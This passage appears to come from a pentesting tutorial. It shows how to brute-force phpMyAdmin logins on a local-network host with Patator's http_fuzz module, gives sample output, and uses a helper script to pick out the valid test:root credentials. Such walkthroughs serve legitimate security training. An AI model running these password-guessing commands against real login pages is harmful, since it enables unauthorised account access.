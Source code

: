 Wordpress behaviour is quite atypical, since it will reply with a 200 response code when the login fails, and with a redirecation 3XX response code when the login is successful.

#### PHPmyadmin
```sh
./patator.py http_fuzz url=http://192.168.0.7/phpmyadmin/index.php accept_cookie=1 method=POST body='pma_username=FILE0&pma_password=FILE1' 0=user.txt 1=pass.txt -x ignore:fgrep='Cannot log in to the MySQL server' follow=1 -l test
 ```
 - `-l test`:  this flag is used to save the results in test folder

Output example: 
```
17:19:39 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2018-08-09 17:19 CEST
17:19:39 patator    INFO -                                                                              
17:19:39 patator    INFO - code size:clen       time | candidate                          |   num | mesg
17:19:39 patator    INFO - -----------------------------------------------------------------------------

17:19:40 patator    INFO - 200  11715:-1       0.214 | anonymous:user                     |    47 | HTTP/1.1 200 OK
17:19:41 patator    INFO - 200  11706:-1       0.253 | nobody:rooted                      |    41 | HTTP/1.1 200 OK
17:19:41 patator    INFO - 200  11703:-1       0.208 | crack:test                         |    55 | HTTP/1.1 200 OK
17:19:41 patator    INFO - 200  11715:-1       0.267 | anonymous:test                     |    46 | HTTP/1.1 200 OK
17:19:41 patator    INFO - 200  78349:-1       1.104 | test:root                          |    18 | HTTP/1.1 200 OK
17:19:41 patator    INFO - 200  11703:-1       0.185 | crack:rooted                       |    59 | HTTP/1.1 200 OK
17:19:41 patator    INFO - 200  11715:-1       0.198 | anonymous:pass                     |    53 | HTTP/1.1 200 OK
```
The right credentials are test:root because of server response time, but this isn't an acceptable reason for us.
It show us that each request has 200 OK as response, now let's analyze our result in test folder.
```
RESULTS.csv  RESULTS.xml  RUNTIME.log  10_200-12753:-1-0.244.txt  22_200-11709:-1-0.314.txt  35_200-11656:-1-0.308.txt  48_200-11715:-1-0.121.txt  61_200-11703:-1-0.291.txt  73_200-11709:-1-0.193.txt and so on..
```
We can now use our script that analyze the content of these results:
```
./patator_help_script.sh test/ "denied"
test//18_200-78366:-1-1.523.txt
Your good credentials are in test number: 
test//18
```
 (./patator_help_script.sh FOLDERNAME  STRINGWEWANTTOFIND)
 So right credentials are in 18th test:
 ```
 17:19:41 patator    INFO - 200  78349:-1       1.104 | test:root                      | -----> 18 <----- | HTTP/1.1 200 OK
 ```

